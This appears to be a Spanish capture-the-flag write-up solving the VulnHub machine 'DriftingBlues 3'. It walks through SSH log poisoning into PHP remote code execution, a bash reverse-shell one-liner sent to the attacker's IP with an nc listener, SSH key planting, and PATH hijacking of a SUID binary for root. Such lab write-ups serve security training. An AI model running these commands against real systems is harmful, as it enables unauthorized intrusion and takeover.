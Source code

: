 ```yaml
---
title: Driffting Blues 3
date: 2024-07-10
categories: [WRITEUPS, VulnHub]
tags: [log poisoning]  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.150 -n -Pn -v
```

![picture](/assets/images/vulnhub/db3-1.png){: w="600" h="300" }

A continuación, nos iremos al navegador para ver la página web del servicio **HTTP**.

![picture](/assets/images/vulnhub/db3-2.png)

La página Web parece ser la de un festival de música, no encontramos nada interesante, por lo que a continuación realizaremos **Fuzzing** con **Gobuster** para encontrar entradas que no podamos ver a simple vista.

```bash
gobuster dir -u http://192.168.1.150/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

![picture](/assets/images/vulnhub/db3-3.png)

En el archivo "**robots.txt**" encontramos la siguiente entrada.

![picture](/assets/images/vulnhub/db3-4.png)

Y a su vez, en la entrada encontrada, nos dice que tienen un problema con el servicio **SSH**, y que miremos en "**/littlequeenofspades.html**".

En la siguiente entrada, encontramos la letra de una canción y una contraseña en **base64**.

![picture](/assets/images/vulnhub/db3-5.png){: w="600" h="300" }

Al decodificarla, nos muestra otra cadena hasheada, el cual volveremos a decodificar, y nos mostrará lo que parece ser un archivo de **log**, con los registros de eventos de las tareas **CRON** y  algunos mensajes con la autenticación **SSH**.

Si intentamos conectarnos mediante **SSH** con un usuario aleatorio llamado "*pwned*", podemos comprobar que el registro se actualiza y sale la conexión no exitosa.

![picture](/assets/images/vulnhub/db3-6.png)

---

## **Explotación**

A continuación, la idea es derivar un **Log Posioning** a un **RCE** (*Remote Code Execution*). Para ello tendremos que introducir código **PHP** en el nombre del usuario mediante la conexción **SSH**.

Al intentar inyectar código **PHP** mediante el usuario de **SSH** nos da un error por caracteres inválidos.

![picture](/assets/images/vulnhub/db3-7.png)

Así que nos iremos a **metasploit**, y usaremos el siguiente **exploit** para que nos deje introducir código **PHP**.

![picture](/assets/images/vulnhub/db3-8.png)

Indicaremos en el nombre, el código en **PHP** por el cual podremos ejecutar comandos en la web, una contraseña cualquiera, y la dirección **IP** de la máquina vulnerable.

![picture](/assets/images/vulnhub/db3-9.png){: w="600" h="300" }

Ejecutamos el exploit, y ya podremos ejecutar comandos con el parámetro que hayamos escogido, en mi caso es "**cmd**".

![picture](/assets/images/vulnhub/db3-10.png)

Ejecutamos el comando id en el navegador, y nos lo muestra.

![picture](/assets/images/vulnhub/db3-11.png)

A continuación, ejecutaremos una **Reverse Shell** en el navegador, mientras que en nuestra máquina local estaremos escuchando con un **Listener** con **ncat**.

1. Máquina local

    ```bash
    nc -nlvp 4444
    ```

2. Navegador

    ```bash
    bash -c "bash -i >%26 /dev/tcp/"Nuestra IP"/4444 0>%261"
    ```

Y acabamos de obtener acceso a la máquina.

![picture](/assets/images/vulnhub/db3-12.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Buscando por la máquina he encontrado que en el directorio del usuario "**robertj**", tenemos permisos de lectura, escritura y ejecución en el directorio ***.ssh***, pero en el directorio se encuentra vacío.

Para poder migrar al usuario "**robertj**", lo que haremos será crear una clave privada y otra pública con el siguiente comando.

```bash
ssh-keygen -t rsa -b 2048 -f id_rsa
```

![picture](/assets/images/vulnhub/db3-13.png){: w="600" h="300" }

Una vez hecho esto, tendremos que introducir el contenido de la clave pública en un archivo llamado "**authorized_keys**".

```bash
cat id_rsa.pub >> authorized_keys
```

A continuación, copiaremos el contenido de la clave privada, crearemos un archivo en nuestra máquina local llamado "**id_rsa**", pegaremos la clave privada, y por último le daremos **permisos 600**.

Entramos mediante **ssh** y la clave privada.

Obtenemos acceso, y podemos leer la primera **flag** de usuario.

![picture](/assets/images/vulnhub/db3-14.png){: w="600" h="300" }

Buscando permisos **SUID** he encontrado el siguiente binario.

![picture](/assets/images/vulnhub/db3-15.png){: w="600" h="300" }

Si lo ejecutamos, podemos comprobar que muestra el contenido de "**/etc/hosts**", y muestra el comando **uname -a**.

![picture](/assets/images/vulnhub/db3-16.png)

Para poder escalar privilegios, nos iremos al directorio "*/tmp/*" y crearemos un archivo llamado ***uname***, el cual dentro obtendrá una bash. Y le damos permisos 777.

![picture](/assets/images/vulnhub/db3-17.png){: w="600" h="300" }

Introduciremos al **PATH** la ruta de **tmp**, para que encuentre antes nuestro archivo que el comando **uname**.

```bash
export PATH=/tmp/:$PATH
```

Ejecutamos el binario, y obtenemos la bash como **root**.

![picture](/assets/images/vulnhub/db3-18.png)

Y podemos leer la segunda flag del usuario **root**.

![picture](/assets/images/vulnhub/db3-19.png){: w="300" h="200" }

